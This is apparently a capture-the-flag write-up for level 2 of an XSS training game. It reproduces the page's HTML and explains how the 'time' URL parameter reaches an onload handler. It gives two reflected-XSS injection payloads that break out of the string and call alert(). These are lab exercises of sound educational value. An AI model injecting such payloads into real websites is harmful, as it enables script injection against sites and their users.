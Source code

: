 # **XSSGame Level 2**

![](https://i.imgur.com/mIHalyH.png)
Use default value to submit, than you'll find following script in assets:
```shell=
<html>
  <head>
    <script src="/static/js/js_frame.js"></script>
    <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() {
          window.confirm("Time is up!");
          window.loading.style.display = 'none';
          window.message.innerHTML = '<a href="?">Go back</a> to the timer setup page';
        }, seconds * 1000);
      }

    </script>
  </head>
  <body style="background-color: white;">
    <center>
      <h1 style="font-family: serif">
        webtim<span style="color: teal">r</span> <span style="color: green">pro</span>
      </h1>
      <!-- Source: https://commons.wikimedia.org/wiki/File:Loading_icon.gif -->
      <img id="loading" src="/static/img/loading.gif" style="width: 50%" onload="startTimer('3');" />
      <br>
      <div id="message">Your timer will execute in 3 seconds.</div>
      
  </center>
  </body>
</html>
```

Just like xss-game level 4, we can also find out:
`<img id="loading" src="/static/img/loading.gif" style="width: 50%" onload="startTimer('3');" />`

What we append to `time=` in url will be `timer` parameter of `startTimer();`.

`3');alert('1`

![](https://i.imgur.com/Dt83CP6.png)

※Another method

`'%2Balert()%2B'`

![](https://i.imgur.com/Z2rB3bL.png)

![](https://i.imgur.com/XoInNBr.png)
